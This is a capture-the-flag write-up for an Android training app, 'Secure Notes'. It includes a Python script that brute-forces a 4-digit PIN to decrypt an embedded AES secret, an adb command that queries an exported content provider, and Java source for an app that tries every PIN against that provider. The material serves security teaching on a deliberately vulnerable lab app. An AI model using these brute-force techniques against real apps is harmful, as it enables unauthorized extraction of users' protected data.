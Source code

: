 **Description**: Welcome to the **Secure Notes Challenge**! This lab immerses you in the intricacies of Android content providers, challenging you to crack a PIN code protected by a content provider within an Android application. It's an excellent opportunity to explore Android's data management and security features.

**Download**: https://lautarovculic.com/my_files/secureNotes.apk
**Link**: https://www.mobilehackinglab.com/path-player?courseid=lab-secure-notes

![[secureNotes.png]]

Install the **APK** with **ADB**
```bash
adb install -r secureNotes.apk
```

We can see that we need insert a **4 digit numbers PIN**.
Let's decompile it with **apktool**
```bash
apktool d secureNotes.apk
```

Also, let's check the **source code** with **jadx**.
Notice that the **directory that apktool** drop us, inside of `assets` directory, we have the `config.properties` file.
Which have this content:
```txt
encryptedSecret=bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=
salt=m2UvPXkvte7fygEeMr0WUg==
iv=L15Je6YfY5owgIckR9R3DQ==
iterationCount=10000
```

May be this can be cracked? :P
```python
import base64
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

# data
encrypted_secret = base64.b64decode("bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=")
salt = base64.b64decode("m2UvPXkvte7fygEeMr0WUg==")
iv = base64.b64decode("L15Je6YfY5owgIckR9R3DQ==")
iteration_count = 10000

# decrypt
def decrypt_secret(password):
    try:
        # PBKDF2
        key = PBKDF2(password, salt, dkLen=32, count=iteration_count)

        # AES (CBC)
        cipher = AES.new(key, AES.MODE_CBC, iv)

        # decrypt
        decrypted = cipher.decrypt(encrypted_secret)

        # delete padding (PKCS7)
        pad = decrypted[-1]
        if all(p == pad for p in decrypted[-pad:]):
            return decrypted[:-pad].decode('utf-8')
    except (UnicodeDecodeError, ValueError):
        pass
    return None

# brute-force between 0000 and 9999
for i in range(0, 10000):
    password = f"{i:04d}"  # format numbers (eg. 0001, 1234)
    result = decrypt_secret(password)
    if result:
        print(f"[+] PIN: {password}")
        print(f"[+] Secret: {result}")
        break
    else:
        print(f"[-] Testing: {password}", end='\r')
```

Output:
```bash
[+] PIN: 2580
[+] Secret: CTF{D1d_********1t!1?}
```
This is so dirty.... let's hack as MHL want.

Let's move to **source code**.
The package name is `com.mobilehackinglab.securenotes`.
We have just **one activity** which is `com.mobilehackinglab.securenotes.MainActivity`.
Also, is exported.
Notice that we have an **Content Provider** (*Exported* & *Enabled*)
```XML
<provider  
    android:name="com.mobilehackinglab.securenotes.SecretDataProvider"  
    android:enabled="true"  
    android:exported="true"  
    android:authorities="com.mobilehackinglab.securenotes.secretprovider"/>  

<activity  
    android:name="com.mobilehackinglab.securenotes.MainActivity"  
    android:exported="true">  
    <intent-filter>  
        <action android:name="android.intent.action.MAIN"/>  
        <category android:name="android.intent.category.LAUNCHER"/>  
    </intent-filter>  
</activity>
```

We can see the **code** where this provider are implemented. Is an class named **`SecretDataProvider`**.
In the `onCreate()` method we can see the information that we was work with the **AES** decrypt method.

Useful code is
```java
if (selection == null || !StringsKt.startsWith$default(selection, "pin=", false, 2, (Object) null)) {
    return null;
}
String removePrefix = StringsKt.removePrefix(selection, (CharSequence) "pin=");
```

Problem:
- A `pin=` parameter is expected in the query, but no robust validation is performed on the value.
- An **attacker can send common pins or perform a brute force attack** directly.
- There is no mechanism for **rate limiting** (limit attempts per minute).

Also, we have a response
```java
MatrixCursor $this$query_u24lambda_u243_u24lambda_u242 = new MatrixCursor(new String[]{"Secret"});
$this$query_u24lambda_u243_u24lambda_u242.addRow(new String[]{secret});
```

Problem:
- *If the pin is correct*, the application **returns the secret in a response without any additional obfuscation** or validation.
- The attacker **receives the decrypted content directly**.

But, the **main problem** is that the **provider is exported** (as in `AndroidManifest.xml` can see).
This mean that **any app installed on device can make unlimited query**.

So, we have the uri:
`content://com.mobilehackinglab.securenotes.secretprovider`
How we can get this?
Simple, in **android manifest** or just **unzipping** the **apk** file, then, search for **strings** in the **`classes.dex`** files.
```bash
strings classes* | grep content://
```

We can run this **ADB** command
```bash
adb shell content query \
    --uri content://com.mobilehackinglab.securenotes.secretprovider \
    --where "pin=2580"
```
Notice that `--where` is because we have a *provider with selection* (mentioned in "useful code").

We can't **update**, **delete** or **insert** PINs because there aren't implementation if you look the code.
Also, check in the source code that the line
```java
String format = String.format("%04d", Arrays.copyOf(new Object[]{Integer.valueOf(Integer.parseInt(removePrefix))}, 1));
```
Clearly said that the PIN is between 0000 - 9999

This query can be **bruteforceable**.
But, let's make our **own** app.
The concept is simple, just make many query **until you match with the secret** `CTF{`
You can make a so **simple app**
```java
package com.lautaro.insecurenotes;

import android.database.Cursor;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;

import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    private static final String TAG = "secretPin";
    private static final String PROVIDER_URI = "content://com.mobilehackinglab.securenotes.secretprovider";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Init
        new Thread(this::bruteForcePin).start();
    }

    private void bruteForcePin() {
        Uri uri = Uri.parse(PROVIDER_URI);

        for (int i = 0; i < 10000; i++) {
            String pin = String.format("%04d", i);
            String selection = "pin=" + pin;

            try (Cursor cursor = getContentResolver().query(uri, null, selection, null, null)) {
                if (cursor != null && cursor.moveToFirst()) {
                    String result = cursor.getString(cursor.getColumnIndexOrThrow("Secret"));
                    Log.d(TAG, "Correct PIN!: " + pin + " | Secret: " + result);
                    break;
                }
            } catch (Exception e) {
                Log.e(TAG, "Error: " + pin, e);
            }
        }
    }
}
```

Or use some beautiful like the mine ;)

![[secureNotes2.png]]
**Download**: https://lautarovculic.com/my_files/insecureNotes-MHL.apk

I hope you found it useful (: